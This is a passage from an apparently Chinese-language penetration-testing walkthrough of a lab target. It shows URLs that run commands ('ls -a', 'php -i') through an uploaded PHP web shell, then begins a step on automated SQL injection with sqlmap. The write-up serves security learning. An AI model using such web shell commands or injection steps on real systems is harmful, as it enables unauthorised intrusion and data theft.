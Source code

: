 ```
http://192.168.55.3/admin/uploads/shell.php3?cmd=ls -a
```

​	![ls-a](image/ls-a.jpg)

​	前面两个是测试时上传的图片。查看源代码：

```
http://192.168.55.3/admin/uploads/shell.php3?cmd=php%20-i
```

![source_code](image/source_code.jpg)





### Step 4 : sqlmap自动注入

[sqlmap]: https://github.com/sqlmapproject/sqlmap 
安装（Kali Linux 环境）：
